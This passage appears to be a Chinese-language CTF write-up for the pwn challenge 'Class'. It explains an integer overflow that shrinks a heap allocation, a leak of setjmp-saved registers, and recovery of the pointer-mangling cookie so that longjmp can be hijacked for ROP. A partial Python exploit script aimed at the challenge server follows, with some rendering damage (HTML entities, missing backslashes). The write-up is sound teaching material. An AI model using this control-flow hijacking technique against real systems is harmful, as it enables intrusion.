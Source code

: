 ```
```

**<br>**

**Pwn-Class**

在init函数中num*200+8存在整形溢出，num控制得当可以使得分配的空间很小。Setjmp会将当前的寄存器保存到堆上（部分寄存器进行了rol和异或加密）。通过show功能可以泄露出保存的寄存器值，通过edit功能可以修改这些值，然后通过longjmp改变程序的控制流程，因为rsp和rip都能被随意修改，所以比较容易进行rop。

脚本：

```
from threading import Thread
from zio import *
target = './class'
target = ('58.213.63.30', 4001)
 
def interact(io):
    def run_recv():
        while True:
            try:
                output = io.read_until_timeout(timeout=1)
                # print output
            except:
                return
 
    t1 = Thread(target=run_recv)
    t1.start()
    while True:
        d = raw_input()
        if d != '':
            io.writeline(d)
 
def rerol(d):
    return ((d&lt;&lt;(64-0x11))+(d&gt;&gt;0x11))&amp;0xffffffffffffffff
 
def rol(d):
    return ((d&lt;&lt;0x11) + (d&gt;&gt;(64-0x11)))&amp;0xffffffffffffffff
 
def show(io, id):
    io.read_until('&gt;&gt;')
    io.writeline('2')
    io.read_until(':')
    io.writeline(str(id))
 
    io.read_until('name:')
    r12 = l64(io.read_until(',')[:-1].ljust(8, 'x00'))
    print 'r12', hex(r12)
    io.read_until('addr:')
    enc_rsp = l64(io.read(8))
    enc_rip = l64(io.read_until(',')[:-1].ljust(8, 'x00'))
 
    base = r12 - 0xaa0
    print 'enc_rsp', hex(enc_rsp)
    print 'enc_rip', hex(enc_rip)
 
    real_rip = base + 0x1495
    cookie = rerol(enc_rip)^real_rip
 
    print 'cookie', hex(cookie)
 
    real_rsp = rerol(enc_rsp)^cookie
    print 'real_rsp', hex(real_rsp)
 
    return (base, real_rsp, cookie)
```